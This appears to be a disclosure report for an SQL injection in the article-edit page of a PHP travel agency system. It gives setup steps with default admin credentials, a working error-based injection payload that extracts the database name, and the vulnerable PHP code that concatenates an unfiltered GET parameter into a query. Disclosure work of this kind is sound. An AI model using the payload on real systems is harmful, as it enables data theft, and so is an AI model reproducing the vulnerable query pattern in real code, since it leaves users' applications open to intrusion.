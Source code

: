 # [Online Travel Agency System-SQL Injection-artical_edit.php]

## Basic Information

**[Bug Reporter]:**  DililLearngent

**[Application Vendors]:**  https://www.sourcecodester.com/online-travel-agency-system-using-php.html

**[Affected Version]:**Online Travel Agency System V1.0

**[Test Environment]:**  windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"travel_agency"**.

5. **Import** the provided **SQL** file. The file is known as **"travel_agency.sql"** located inside the extracted source code folder.

6. **Browse** the **Online Travel Agency System** in a **browser**. i.e. **http://localhost/Travel**

   **Admin Access Information:**

   Username: **admin**
   Password: **admin**

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://10.142.221.111/Travel/admin/artical_edit.php?page_id=22`    

**[Vulnerability Location]:** Travel/admin/artical_edit.php

**[Vulnerability Test]:**

1. payload:`page_id=22%27%20and%20extractvalue(1,concat(0x7e,(select%20database()),0x7e))--+`

   ![](../../img/20230428165830.png)

   The database name was obtained from the above payload execution.

**[code analysis]:**

Travel/admin/artical_edit.php

```php
<?php

$page_id=$_GET['page_id'];
  $sql="select * from pages where page_id='$page_id'";
$result=mysqli_query($con,$sql) or die(mysqli_error($con));
$row=mysqli_fetch_array($result);
	  
	  $title=$row["title"];
	  $description=$row["description"];

?>
```

The GET parameter `page_id` is obtained without any filtering and spliced directly into the sql execution statement, and display the errors returned by the database execution back to the front-end page.

